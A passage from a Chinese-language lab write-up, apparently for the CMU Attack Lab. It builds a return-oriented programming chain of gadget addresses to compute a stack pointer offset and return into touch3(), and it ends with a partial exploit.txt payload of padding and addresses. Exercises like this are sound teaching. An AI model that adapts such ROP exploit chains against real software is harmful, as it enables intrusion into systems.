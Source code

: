 ```nasm
ret ; to 0x4019a2 --- the address of `mov rdi, rax`
; R[rax] == 1
mov rdi, rax ; 48 89 c7
ret ; to 0x4019dd --- the address of `mov edx, eax`
mov edx, eax ; 89 c2
ret ; to 0x401a34 --- the address of `mov ecx, edx`
mov ecx, edx ; 89 d1 (38 c9)
ret ; to 0x401a13 --- the address of `mov esi, ecx`
mov esi, ecx ; 89 ce (90 90)
ret ; to 0x4019d6 --- the address of `add_xy()`
lea rax, [rdi + rsi] ; 48 8d 04 37
ret ; to 0x4019a2 --- the address of `mov rdi, rax`
; R[rax] == 2, R[rsi] == 1, R[rsi] == 1
```

除第一行外，其他部分重复四次，可得

```nasm
; R[rax] == 32, R[rdi] == 16, R[rsi] == 16
```

将 `R[rax]` 中的 `32` 移入 `R[rsi]`，但最后一步的返回地址换为 `mov rax, rsp` 的地址：

```nasm
mov rdi, rax ; 48 89 c7 --- optional
ret ; to 0x4019dd --- the address of `mov edx, eax`
mov edx, eax ; 89 c2
ret ; to 0x401a34 --- the address of `mov ecx, edx`
mov ecx, edx ; 89 d1 (38 c9)
ret ; to 0x401a13 --- the address of `mov esi, ecx`
mov esi, ecx ; 89 ce (90 90)
ret ; to 0x401a06 --- the address of `mov rax, rsp`
```

期望 `sval` 始于 `R[rsp] + 32` 处，故作如下地址偏移计算：

```nasm
; sval = R[rsp] + 32, R[rsi] = 32
mov rax, rsp ; 48 89 e0
ret ; to 0x4019a2 --- the address of `mov rdi, rax`
mov rdi, rax ; 48 89 c7
ret ; to 0x4019d6 --- the address of `add_xy()`
lea rax, [rdi + rsi]
ret ; to 0x4019a2 --- the address of `mov rdi, rax`
mov rdi, rax ; 48 89 c7
; sval = R[rsp] + 8
ret ; to `0x4018fa`, which is the address of `touch3()`
; sval = R[rdi]
```

将上述指令整理为输入：

```c
/* exploit.txt */
/* buf[00, 08) */ 90 90 90 90 90 90 90 90
/* buf[08, 16) */ 90 90 90 90 90 90 90 90
/* buf[16, 24) */ 90 90 90 90 90 90 90 90
/* buf[24, 32) */ 90 90 90 90 90 90 90 90
/* buf[32, 40) */ 90 90 90 90 90 90 90 90
/*  0  */ a2 19 40 00 00 00 00 00
/* -01 */ dd 19 40 00 00 00 00 00
/* -02 */ 34 1a 40 00 00 00 00 00
/* -03 */ 13 1a 40 00 00 00 00 00
/* -04 */ d6 19 40 00 00 00 00 00
/* -05 */ a2 19 40 00 00 00 00 00
/* -06 */ dd 19 40 00 00 00 00 00
/* -07 */ 34 1a 40 00 00 00 00 00
/* -08 */ 13 1a 40 00 00 00 00 00
```
